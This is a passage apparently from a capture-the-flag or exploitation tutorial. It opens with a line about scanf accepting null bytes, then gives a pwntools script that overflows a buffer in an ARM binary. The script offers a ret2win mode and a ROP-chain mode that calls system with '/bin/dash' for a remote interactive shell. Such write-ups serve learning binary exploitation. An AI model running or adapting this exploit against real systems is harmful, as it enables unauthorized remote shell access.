 > One thing to notice is that `scanf` doesn't abort on `\x00` and allows us to write zeroes in the middle of our ROPchain. We can see in scanf documentation that "The input string stops at white space or at the maximum field width, whichever occurs first."


We can modify our exploit script to handle the simple and rop-based exploits:
```python
#!/usr/bin/env python3

from pwn import *
import argparse

evil_ea = 0x0001052c

if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subcommands = parser.add_subparsers(dest="subcommand")

    simple_parser = subcommands.add_parser("simple")
    rop_parser = subcommands.add_parser("rop")

    rop_parser.add_argument("-b", "--binary", help="The binary to exploit and retrieve gadgets from")

    parser.add_argument("host", help="The host to connect to")
    parser.add_argument("port", help="The port to connect to")
    args = parser.parse_args()

    if args.subcommand == "simple":
        print("Exploiting with RET-2-WIN")
        payload = b"A" * 0x44 + p32(evil_ea)
    elif args.subcommand == "rop":
        print("Exploiting with ROP")
        bin = ELF(args.binary)
        binsh_ea = next(bin.search(b"/bin/dash\x00"))
        g_evil_system_stub = 0x0001053C # 0x0001053c : mov r0, r3 ; bl #0x103cc ; mov r0, r0 ; sub sp, fp, #4 ; pop {fp, lr} ; bx lr
        g_mov_r0_r3 = 0x00010380 # 0x0001037c : pop {r3, lr} ; bx lr 

        payload = b"A" * 0x44
        payload += p32(g_mov_r0_r3)
        payload += p32(binsh_ea)
        payload += p32(g_evil_system_stub)
    else:
        parser.print_help()
        sys.exit(1)

    r = remote(args.host, args.port)

    print(payload)

    r.sendline(payload)

    r.interactive()
```
